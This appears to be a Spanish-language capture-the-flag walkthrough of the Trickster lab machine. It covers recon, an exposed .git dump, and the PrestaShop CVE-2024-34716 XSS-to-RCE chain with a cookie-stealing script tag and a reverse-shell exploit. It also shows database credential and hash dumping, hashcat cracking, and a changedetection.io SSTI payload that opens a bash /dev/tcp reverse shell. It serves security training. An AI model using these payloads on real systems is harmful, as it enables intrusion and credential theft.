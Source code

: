 #XSS 
`nmap -p- --open -sS --min-rate 5000 -n -Pn -vvv 10.10.11.34 -oG allPorts`
`nmap -p22,80 -sCV 10.10.11.34 -oN targeted`
```python
22/ssh
80/http
```


`gobuster vhost -u http://trickster.htb -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -t 200 -r --append-domain`
```js
10.10.11.34     trickster.htb shop.trickster.htb
```

Utiliza un `prestashop` que es como un Wordpress para ecomerce

Encontramos en `robots.txt` el directorio `http://shop.trickster.htb/.git/`

Usaremos la herramienta [[GITHACK]] `https://github.com/lijiejie/GitHack.git`
`python3 githack http://shop.trickster.htb/.git/`

Nos traerá toda la web a nuestra maquina y la podemos ver navegando a sus directorios
Encontramos el siguiente directorio de panel de login de Prestashop `http://shop.trickster.htb/admin634ewutrx1jgitlooaj/index.php`

Encontramos la versión y encontramos que tiene un CVE `CVE-2024-34716`
`https://ayoubmokhtar.com/post/png_driven_chain_xss_to_remote_code_execution_prestashop_8.1.5_cve-2024-34716/`

En el PoC nos explica que podemos crear un falso archivo `.png` en el cual podemos incluir contenido JavaScript que será interpretado, por lo que se acontecería un XXS
Este archivo se puede incluir en la web `http://shop.trickster.htb/contact-us`

Creamos el fichero `test.png` con el contenido `<script src="http://10.10.14.18/malicius.js"></script>`

El servicio web hace la solicitud al recurso que hemos levantado en el server de Python

Podemos probar a listar la cookie de sesión `<script src="http://10.10.14.18/?cookie=" + document.cookie></script>`

Como el HttpOnly esta en True no nos permite obtener la cookie

EN el PoC nos dice que hay que subir un tema malicioso podemos usar el repositorio `https://github.com/aelmokhtar/CVE-2024-34716` que nos lo automatiza

Este script nos automatiza todo el proceso de ejecución devolviéndonos una Reverse Shell directamente

`python3 exploit.py --url "http://shop.trickster.htb" --email test@test.com --local-ip 10.10.14.18 --admin-path admin634ewutrx1jgitlooaj
`
Obtendremos una reverse shell como el usuario
Y hacemos un tratamiento de la TTY para que podamos trabajar mas cómodamente

En nuestro directorio acctual encontramos el directoriuo de `prestashop` buscamos por archivos de configuracion `find . -name \*conf\*` y encontramos la siguiente ruta `app/config`  buscamos por archivos que contengan la plabra password `grep -r -i "password"`y encontramos un archivo llamdo `parameters.php`

Y encontramos el usuario de la base de datos 
```ad-hint 
ps_user::prest@shop_o
```

Nos conectamos a la base de datos con el usuario y password encontrados:
`mysql -ups_user -pprest@shop_o -D prestashop`

Al haber muchas tablas se puede filtrar de la siguiente forma
`select table_name from information_schema.columns where column_name = 'email' and table_schema = database();`

Lo que nos hace es: d3e la base de datos actual de todas las tablas muéstrame todas las columnas que contengan la palabra email

Encontramos que en la tabla de empledos es donde se encuentran todos los datos mas relevantes;
`describe ps_employee;`

Obtenemos los usuarios y las contraseñas:
`select email,passwd from ps_employee;`

```ad-hint
admin@trickster.htb

$2y$10$P8wO3jruKKpvKRgWP6o7o.rojbDoABG9StPUt0dR7LIeK26RdlB/C

james@trickster.htb

$2a$04$rgBYAsSHUVK3RZKfwbYY9OPJyBbt/OzGw9UHi4UnlK6yG5LyunCmm
```

Para esos hashes los cuardamos en un archivo y se los pasamos ha [[HASCAT]] el cual nos dira diferentes modos que debmos de probar para decodearlo ` hashcat hashes /usr/share/wordlists/rockyou.txt -O `

Nos indica que son bcrypt y tendremos que usar el siguiente parametro
`hashcat hashes /usr/share/wordlists/rockyou.txt -O -m 3200`

Encontramos la contraseña `alwaysandforever` para el usuario `james`
Y conseguiremos pivotar a este usuario

```ad-hint
james::alwaysandforever
```
## Escalada de privilegios
En la búsqueda de binarios SUID no encontramos nada que podamos escalar `find / -perm -4000 2>/dev/null`

Buscaremos capabilities `getcap -r / 2>/dev/null` y tampoco encontramos ninguna que nos pueda servir

Buscamos los puertos abiertos `ss -nltp` tampoco encontramos nada

Buscamos en los procesos con `ps -faux` tampoco encontramos nada útil

Al hacer `hostname -I` encontramos otra IP diferente, encontrando un docker instalado
Para hacer un reconocimiento de las maquinas docker podemos hacer un código para identificar las IP que hay
```bash
#!/bin/bash

for i in $(seq 1 254); do
        timeout 1 bash -c "ping -c 1 171.17.0.$i" &>/dev/null && echo "[+] Host 172.17.0.$i - ACTIVE" &
done; wait
```

Nos encuentra activo el host `.2`

Vamos a ver que puertos tiene abiertos la maquina creando el siguiente script
```bash
#!/bin/bash

for port in $(seq 1 65535); do
        timeout 1 bash -c "echo '' > /dev/tcp/172.17.0.2/$port" &>/dev/null && echo "[+] Puerto $port - OPEN" &
done; wait
```

Nos encuentra el puerto `5000` abierto
Y haciendo un `curl` vemos que se trata de una pagina web `curl 172.17.0.2:5000`

Para desde nuestro equipo poder ver la maquina te haga port fordwarding con ssh `ssh james@10.10.11.34 -L 5000:172.17.0.2:5000`

Ahora desde buestra maquina accedemos a `http://localhost:5000` y nos muestra como un panel de login corriendo con CHANGEDETECTION.IO v0.45.20

Buscamos esto en internet a ver si encontramos información sobre ello vemos que tiene un un `CVE-2024-32651` el cual permite `SSTI` que permite acabarlo en un `RCE`

Primero deberemos de ganar acceso a la interfaz y vemos que se reutiliza la password de james y estaríamos dentro de la web

Seguiremos el PoC `https://github.com/advisories/GHSA-4r7v-whpg-8rx3` lo primero que tenemos que hacer es crear un falso `index.html` y levantar un servidor con Python

Añadimos la url apuntando al servidor que hemos levantado 
En edit cambiamos el timer a menos tiempo y en la zona de notifications añadimos:
- Notification URL list `get://10.10.11.34:8882`
- Notification body `{{ self.__init__.__globals__.__builtins__.__import__('os').popen('bash -c "bash -i /dev/tcp/<IP_Atacante>/445 0>&1"').read() }}`

En nuestra maquina atacante nos ponemos en escucha `nc -nlvp 445` y realizamos cualquier cambio en el `index.html` para obtener la shell
Hemos obtenido una shell como root dentro del contenedor  con IP `172.17.0.2:5000`  una vez obtenida la shell hacemos un tratamiento de esta

Si navegamos por los directorios encontramos en la raíz un directorio `/datastore`


